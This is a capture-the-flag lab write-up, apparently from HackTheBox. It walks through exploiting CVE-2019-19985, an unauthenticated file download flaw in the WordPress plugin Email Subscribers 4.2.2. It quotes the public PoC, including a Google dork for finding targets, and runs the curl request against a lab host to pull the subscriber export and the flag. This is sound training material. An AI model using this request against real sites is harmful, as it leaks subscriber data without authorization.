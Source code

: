We have 3 plugins:

```ad-info
1. email-subscribers 4.2.2
2. site-editor 1.1.1
3. the-events-calendar 5.1.2.1
```

We can begin by checking each one of them using the versions to check if there's any vulnerability regarding the version:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250220142950.png)

Found the one we need, it is a `email-subscribers 4.2.2 Unauthenticated File Download` Exploit, here's the PoC:

```
# Exploit Title: WordPress Plugin Email Subscribers & Newsletters 4.2.2 - Unauthenticated File Download
# Google Dork: "Stable tag" inurl:wp-content/plugins/email-subscribers/readme.txt
# Date: 2020-07-20
# Exploit Author: KBA@SOGETI_ESEC
# Vendor Homepage: https://www.icegram.com/email-subscribers/
# Software Link: https://pluginarchive.com/wordpress/email-subscribers/v/4-2-2
# Version: <= 4.2.2
# Tested on: Email Subscribers & Newsletters 4.2.2
# CVE : CVE-2019-19985


curl [BASE_URL]'/wp-admin/admin.php?page=download_report&report=users&status=all'
EXAMPLE: curl 'http://127.0.0.1/wp-admin/admin.php?page=download_report&report=users&status=all'
```

So, we need to use curl in the following way:

```bash
curl 'http://blog.inlanefreight.local/wp-admin/admin.php?page=download_report&report=users&status=all'
```

We get this output:

```
curl 'http://blog.inlanefreight.local/wp-admin/admin.php?page=download_report&report=users&status=all'

"First Name", "Last Name", "Email", "List", "Status", "Opt-In Type", "Created On"
"admin@inlanefreight.local", "HTB{unauTh_d0wn10ad!}", "admin@inlanefreight.local", "Test", "Subscribed", "Double Opt-In", "2020-09-08 17:40:28"
"admin@inlanefreight.local", "HTB{unauTh_d0wn10ad!}", "admin@inlanefreight.local", "Main", "Subscribed", "Double Opt-In", "2020-09-08 17:40:28"

```

Got the flag:

```
HTB{unauTh_d0wn10ad!}
```
